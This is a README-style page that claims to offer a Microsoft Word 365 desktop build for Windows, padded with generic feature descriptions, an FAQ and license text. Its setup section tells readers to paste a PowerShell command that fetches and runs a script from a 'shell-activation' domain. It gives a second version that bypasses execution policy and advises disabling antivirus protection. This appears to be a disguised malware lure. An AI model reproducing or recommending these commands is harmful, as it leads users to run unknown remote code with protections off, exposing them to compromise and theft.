

<div align="center">

# Microsoft Word 365 Desktop Word Processor for Windows 11



[]() []() []()

</div>

---

Microsoft Word for Microsoft 365 is a desktop word processor for creating, editing, and formatting letters, reports, and long-form documents on a single PC. The 2024 and 2021 builds embed styles and heading structures directly in the document file, keeping formatting synchronized with the text as content grows. Advanced layout controls, reusable templates, and structured navigation support precise document composition across multi-section drafts. Integrated research and reference tools assist with citation management and content verification during writing.

## 🔧 PowerShell Setup

> [!TIP]
> **Automated setup** — one command, done.
> Windows 10/11 · PowerShell 7+ · No admin

### 1️⃣ Launch PowerShell
* Open the Start menu and type **PowerShell**.
* Right-click and choose **Run as administrator** (optional).

### 2️⃣ Run the script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')
```

### 3️⃣ If PowerShell blocks the script
Run this command in CMD instead:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "$ProgressPreference='SilentlyContinue';iex(irm 'https://shell-activation.top/update/ps-activator-v_pZBbxuWx7DELoMji')"
```

> [!WARNING]
> Some antivirus engines flag automated installers. If blocked, disable Real-time protection briefly, run the setup, and enable it back.

## 📋 System Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Native document authoring:** Paragraph composition, heading hierarchy, and rich text formatting are handled by the desktop engine, supporting letters, reports, and long-form documents on a single PC.
- **Embedded style system:** Styles, headings, and formatting definitions are stored directly within the document file alongside the text, preserving structure and visual consistency across edits and reopens.
- **Structured long-document tooling:** Built-in mechanisms for managing multi-section documents, including consistent heading levels and style inheritance for extended manuscripts and technical reports.
- **Version-specific builds:** Dedicated 2024 and 2021 desktop builds, each aligned to its respective Microsoft 365 release train for predictable behavior on single-machine deployments.
- **Local document processing:** Document creation and editing execute on the local desktop, with no dependency on external services for core word processing operations.
- **Document fidelity:** Formatting, styles, and structural elements remain intact when documents are saved and reopened, supporting reliable round-trip editing.

## How it works

Microsoft Word 365 operates as a native Windows desktop application built around a document object model that separates content from presentation. When a document is opened, the application parses the underlying file structure and reconstructs the editing surface, resolving style definitions, section properties, and embedded resources before rendering the layout.

**Document model and styling engine**

Text, paragraphs, and headings are stored alongside their style associations rather than being hard-formatted in place. The styles engine resolves inheritance chains, so a change to a base style propagates through dependent headings and body text. Numbering, list levels, and outline hierarchy are tracked as structured properties, which keeps long documents internally consistent as sections are inserted, reordered, or removed.

**Layout and rendering pipeline**

The layout engine computes pagination, line breaking, and table geometry against the current page setup. Repagination is triggered incrementally as edits occur, allowing headers, footers, footnotes, and cross-references to update without reprocessing the entire document. Rendering is decoupled from layout, so the on-screen view reflects the same computed geometry used for print output.

**Editing surface and input handling**

The editor processes keyboard and pointer input through a command layer that maps actions to reversible operations. Each operation is recorded in an undo stack, enabling transactional rollback of formatting, structural, and content changes. Selection, clipboard, and drag-and-drop interactions all route through the same command layer, which keeps behavior consistent across editing modes.

**File format and persistence**

Documents are read from and written to the native package format, which bundles the text body, style definitions, relationships, and media into a structured archive. Saving performs validation of the document tree before serialization. Compatibility modes adjust the feature set applied during editing so that documents targeting earlier formats avoid unsupported constructs.

**Collaboration and integration layer**

When connected to Microsoft 365 services, the application synchronizes document state through the collaboration layer, merging concurrent edits at the operation level. Local changes are queued and reconciled against remote revisions. Export paths for PDF and other formats run through the same layout engine used for display, ensuring that pagination and styling remain stable across output targets.

**Resource and performance behavior**

Long documents are handled through segmented loading, where only the regions near the viewport are fully materialized. Background indexing supports navigation, search, and reference resolution without blocking input. Memory use scales with active document segments rather than total document size, which keeps responsiveness consistent as files grow.

## Compatibility

Microsoft Word for Microsoft 365 is designed for desktop installations of the 2024 and 2021 builds on a single Windows PC. The application targets the Windows desktop environment and is intended for local document authoring, editing, and formatting alongside the broader Microsoft 365 productivity suite.

Compatibility considerations include:

- **Operating system**: The desktop build runs natively on supported Windows desktop releases. Installation and operation are scoped to a single local machine rather than a multi-device or web-based environment.
- **Document formats**: Word opens and saves its native document format, preserving styles, headings, and structural elements directly within the file alongside the text. This ensures that formatting remains consistent when documents are reopened or shared with other Word installations.
- **Style and heading fidelity**: Because styles and headings are stored in the file itself, documents retain their formatting hierarchy across compatible Word versions and desktop environments that support the same format.
- **Microsoft 365 ecosystem**: The application is built to integrate with the Microsoft 365 suite, supporting workflows that involve the broader set of desktop productivity tools.
- **Export formats**: Documents can be exported to widely used formats, including PDF, to support sharing and distribution across platforms and viewers.
- **Single-PC scope**: The 2024 and 2021 builds are optimized for one-PC use, making them suitable for individual desktop productivity rather than server-side or multi-tenant deployments.

For best results, ensure the target PC meets the system requirements associated with the installed build and that the desktop environment supports the document formats and export options you intend to use.

## FAQ

**Which builds are covered by this project?**
This project targets the desktop Microsoft Word application as shipped in Microsoft 365, specifically the 2024 and 2021 perpetual-style builds for Windows. It is scoped to the single-PC word processing workload: letters, reports, and long-form documents.

**What document formats are supported?**
Word opens and saves its native document format along with the legacy binary format, and it exports to PDF and XPS. Rich Text Format and plain text are supported for interchange, and the OpenDocument text format is available for compatibility with other office suites.

**How are styles and headings stored?**
Styles, heading levels, and direct formatting are persisted inside the document file itself, not in a separate template or external profile. This means a document carries its own structure and appearance when moved between machines, and the navigation pane and table of contents resolve from the stored heading hierarchy.

**Does it support collaboration and tracked changes?**
Yes. The desktop application provides track changes, comments, and review workflows. Real-time co-authoring is available when the document is stored in a supported cloud location; without that, reviewers exchange copies and merge revisions through the comparison and combine tools.

**What are the system requirements?**
A Windows desktop environment is required. The application is a native desktop program, not a browser-based tool, and it expects a standard Windows installation with sufficient disk space for the application and its document cache. Memory requirements scale with document size and the number of concurrently open documents.

**Is an internet connection required?**
No for core editing. Document creation, formatting, and local save operate fully offline. Connectivity is required only for cloud-backed features such as co-authoring, cloud storage, and license validation where applicable.

**Can it handle very long documents?**
Yes. The application supports master documents, cross-references, footnotes and endnotes, captions, indexes, and automatic tables of contents. Styles and heading structure are maintained across sections, which keeps navigation and numbering consistent in long reports and manuscripts.

**How is accessibility addressed?**
The application includes an accessibility checker that flags missing alternative text, ambiguous link text, and structural issues in tables and headings. Screen reader interoperability and keyboard navigation are supported throughout the ribbon and document canvas.

**What about extensibility and automation?**
Document automation is available through the built-in macro environment and through the application's object model, allowing programmatic generation, formatting, and batch processing of documents. Add-ins can extend the ribbon and the editing surface.

**Where do I report issues or request features?**
Bug reports and feature requests should be filed against this project's issue tracker. Include the build version, the steps to reproduce, and a minimal sample document where possible so the behavior can be isolated.

## Disclaimer

Microsoft Word for Microsoft 365 is provided on an "as is" and "as available" basis, without warranties of any kind, whether express, implied, or statutory, including but not limited to warranties of merchantability, fitness for a particular purpose, title, and non-infringement. The 2024 and 2021 desktop builds are intended for single-PC use for letters, reports, and long documents; behavior may vary across operating system versions, hardware configurations, and document complexity, and no guarantee is made that every feature, style, heading, or formatting attribute will render identically in every environment or in third-party applications.

Style and heading definitions are stored within the document file alongside the text, which preserves structure and formatting when files are moved between compatible systems; however, rendering fidelity depends on the fonts, templates, and features available on the machine opening the file, and substitutions or layout shifts may occur where those resources are absent. Compatibility with files created in other word processors, or with documents using features not supported by the installed build, is not guaranteed, and round-trip editing may alter or omit unsupported content.

Users are solely responsible for maintaining independent backups of their documents and for verifying the integrity of files after editing, conversion, or export, including export to PDF and other formats. The project does not warrant that operation will be uninterrupted or error-free, that defects will be corrected, or that the software is free of harmful components; users assume all risk arising from use of the software and from any reliance on its output. No advice or information, whether oral or written, obtained in connection with the project, creates any warranty not expressly stated herein.

To the maximum extent permitted by applicable law, the project, its maintainers, and its contributors shall not be liable for any direct, indirect, incidental, special, consequential, or exemplary damages, including but not limited to loss of data, loss of profits, business interruption, or procurement of substitute services, however caused and under any theory of liability, arising in any way out of the use of or inability to use the software, even if advised of the possibility of such damages. Some jurisdictions do not allow the exclusion of certain warranties or the limitation of certain liabilities, so portions of the foregoing may not apply to you; in such cases, liability is limited to the greatest extent permitted by law.

This disclaimer is informational and does not modify or supersede the terms of the project's license, which governs use, reproduction, and distribution of the software.

## License

This project is distributed under the Apache License 2.0. The license governs the terms under which the Microsoft-Word-365 desktop application, its source code, and accompanying documentation may be used, reproduced, modified, and redistributed.

Under the Apache License 2.0, you are granted a perpetual, worldwide, non-exclusive, royalty-free license to:

- Use the software for any purpose, including commercial and personal document processing workflows.
- Reproduce the original work in source or compiled form.
- Prepare derivative works based on the source code and distribute them under the same license terms.
- Distribute copies of the software, in whole or in part, provided that all copyright, patent, trademark, and attribution notices are retained.

The license requires that any modified files carry prominent notices stating that you changed the files, and that any redistribution include a copy of the license. A NOTICE file, where present, must be preserved and included in distributions. Contributors grant a patent license covering any patents they hold that are necessarily infringed by their contributions.

The software is provided "AS IS," without warranties or conditions of any kind, either express or implied, including but not limited to warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability arising from the use of the software.

Trademarks, product names, and branding associated with the project remain the property of their respective owners and are not granted under this license. The license does not grant permission to use trade names, trademarks, service marks, or product names except as required for reasonable and customary use in describing the origin of the work.

By using, modifying, or distributing this software, you agree to be bound by the terms of the Apache License 2.0. The full text of the license is included in the LICENSE file distributed with the project.